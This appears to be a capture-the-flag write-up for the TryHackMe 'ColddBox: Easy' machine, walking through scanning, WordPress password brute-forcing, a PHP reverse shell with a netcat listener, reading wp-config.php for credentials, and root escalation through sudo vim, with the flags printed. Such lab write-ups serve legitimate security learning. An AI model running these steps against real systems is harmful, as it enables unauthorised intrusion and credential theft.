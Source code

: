 # ColddBox-WriteUp---TryHackMe
# ***Abdelhay Ferqass ***
**ColddBox: Easy**
*An easy level machine with multiple ways to escalate privileges. By Hixec.*

After running Nmap with the following command

`nmap -sC -sV -p- `

we get this:

`PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: ColddBox | One more machine
4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4e:bf:98:c0:9b:c5:36:80:8c:96:e8:96:95:65:97:3b (RSA)
|   256 88:17:f1:a8:44:f7:f8:06:2f:d3:4f:73:32:98:c7:c5 (ECDSA)
|_  256 f2:fc:6c:75:08:20:b1:b2:51:2d:94:d6:94:d7:51:4f (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel`

ruuning ***Gobuster*** with this command :

`gobuster dir -u MACHINE_IP -w /usr/share/wordlists/FULL_PATH_TO_YOUR_WORDLIST`

will lead you into *`/wp-admin`*

let's run `WPScan` since it's a wordpress cms

`abdelhay@K4LI:/data/vpn$ wpscan --url http://MACHINE_IP/ -e u -P /usr/share/wordlists/rockyou.txt `


and just like this we got **c0ldd's password : 9876543210**

get a reverseshell in 

`https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php`

lunch a netcat listener with : 

`nc -nlvp 1234`

TCHA RAA!! we're www-data
establish your shell with 

`python -c 'import pty; pty.spawn("/bin/bash")'`

`export TERM=xterm`

let's check a very sensitive php file with :

`www-data@ColddBox-Easy:/var/www/html$ cat wp-config.php`


let's use those creds for ssh connection

`abdelhay@K4ALI:/data/vpn$ ssh c0ldd@10.10.124.265 -p 4512
c0ldd@ColddBox-Easy:~$ cat user.txt 
RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==`

lets run   `sudo -l`

and we got 

`   (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp`


u can just run 

`sudo /usr/bin/vim`

and wirte this in

`:!/bin/bash`

and Congrats!! we're root now.

`c0ldd@ColddBox-Easy:~$  sudo /usr/bin/vim`


`root@ColddBox-Easy:/root# cat root.txt`

`wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=`

`root@ColddBox-Easy:/root# `








